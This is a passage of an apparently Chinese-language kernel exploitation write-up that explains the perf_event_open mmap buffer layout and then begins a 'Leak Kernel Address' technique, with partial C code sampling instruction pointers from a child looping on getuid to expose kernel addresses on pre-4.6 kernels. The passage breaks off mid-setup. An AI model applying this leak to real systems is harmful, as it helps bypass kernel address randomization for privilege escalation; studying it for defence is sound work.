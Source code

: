 * data_head

  指向`data section`的头部，一直不断递增

* data_tail

  当mmap类型为`PORT_WRITE`时，需要更新为`last read`，通知内核已经读取的采样数据

* data_offset

  mmap缓冲区中采样数据起始的偏移位置

* data_size

  在mmap缓冲区中采样数据的大小

##### data value

剩余的`2^n`PAGE的内存分布由event的type和采样的sample_type决定，每一次采样都以一个header结构开始

```c

struct perf_event_header {
    __u32   type;
    __u16   misc;
    __u16   size;
};
```

如果`sample_type = PERF_SAMPLE_IP`，每一次采样的结构

```c
struct{
	struct perf_event_header header;
	u64 ip;	
}
```



#### Leak Kernel Address

​		基于前面对于`perf_event_open`的认识，其中一个特别的采样数据就是`PERF_SAMPLE_IP`，因为这个将返回一个指令的地址，如果是发生在内核中的事件，将造成内核地址泄漏，而`/proc/sys/kernel/perf_event_paranoid`对这一点做了限制，4.6之后默认不允许采样内核数据，但是4.6之前是支持的。

##### 创建perf_event

`type`为PERF_TYPE_SOFTWARE，`config`为PERF_COUNT_SW_TASK_CLOCK，`sample_type`为PERF_SAMPLE_IP，设置`exclude_user`，采样子进程的时钟计数，而子进程一直调用同一个系统调用（越精简越好） ，这里以`getuid`为例

```c
	struct perf_event_attr pe;
	int fd = -1;
	pid_t child = 0;

	switch ((child = fork())) {
	case -1:
		fprintf(stderr, "fork failed: %m\n");
		return -1;
	case 0:;
		int id = 0;
		while (1) id = getuid();
		return 1;
	default:
		break;
	}

	memset(&pe, 0, sizeof(pe));
	pe.size = sizeof(pe);
	pe.type = PERF_TYPE_SOFTWARE;
	pe.config = PERF_COUNT_SW_TASK_CLOCK;
	pe.disabled = 1;
```
